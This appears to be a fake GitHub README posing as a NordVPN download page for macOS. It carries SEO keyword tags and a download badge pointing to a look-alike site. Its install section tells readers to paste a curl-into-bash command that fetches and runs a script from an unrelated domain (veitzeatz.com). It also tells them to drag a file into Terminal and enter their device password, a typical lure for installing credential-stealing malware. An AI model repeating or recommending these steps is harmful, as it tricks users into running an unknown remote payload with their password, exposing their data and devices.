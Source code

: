 # 🛡️ NordVPN — Secure & Fast VPN for macOS

**NordVPN** is a leading VPN service designed to provide macOS users with secure, private, and fast internet access. With NordVPN, you can encrypt your online traffic, unblock geo-restricted content, and protect your privacy on MacBook, iMac, and other Apple devices.

Optimized for macOS and Apple Silicon, NordVPN offers a seamless and reliable experience with thousands of servers worldwide.

---

## ✅ Download NordVPN for macOS  
[![Download NordVPN](https://img.shields.io/badge/Download-NordVPN-blueviolet)](nordvpn-download-mac.github.io)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🛡️ What is NordVPN?

NordVPN encrypts your internet connection and hides your IP address to secure your data from hackers, ISPs, and government surveillance. It provides fast streaming, safe browsing on public Wi-Fi, and easy access to global content with its extensive server network.

Fully compatible with the latest macOS versions and Apple Silicon chips, NordVPN ensures privacy without compromising speed.

---

## ✨ Features

- 🔒 Military-grade AES-256 encryption  
- 🌍 Access to 5,000+ servers worldwide  
- ⚡ Ultra-fast and reliable connection speeds  
- 🛡 CyberSec technology for ad and malware blocking  
- 🖥 Native app optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🔄 Automatic Kill Switch to protect your IP if VPN drops  
- 🌐 Support for split tunneling and custom DNS  
- 🔐 No-logs policy with audited privacy practices  

---

## 💡 Why Use NordVPN?

- 🔐 Keep your internet activity private and secure  
- 🚀 Stream and browse without restrictions  
- 🧩 Easy-to-use interface tailored for Mac users  
- 🛡 Protect your data on public Wi-Fi networks  
- 🌎 Connect to servers worldwide for best performance  

---

[![Download NordVPN](https://img.shields.io/badge/Download-NordVPN-blueviolet)](nordvpn-download-mac.github.io)

---



## 🖼 Preview

![NordVPN Screenshot 1](https://www.security.org/app/uploads/2023/12/NordVPN-on-Mac.png)  
![NordVPN Screenshot 2](https://www.security.org/app/uploads/2023/12/NordVPN-connected-to-Australia.png)

---

## 📌 Tags

nordvpn mac  
nordvpn download mac  
nordvpn mac download  
nordvpn download for mac  
download nordvpn mac  
nordvpn on mac  
mac nordvpn  
nordvpn osx  
nordvpn macos  
nord for mac  
nordvpn mac app  
nordvpn for mac download  
vpn mac  
best vpn for mac  
mac vpn software  
apple silicon vpn  
macbook vpn app  
secure vpn mac  
fast vpn mac  
privacy vpn mac  
vpn for macbook pro  
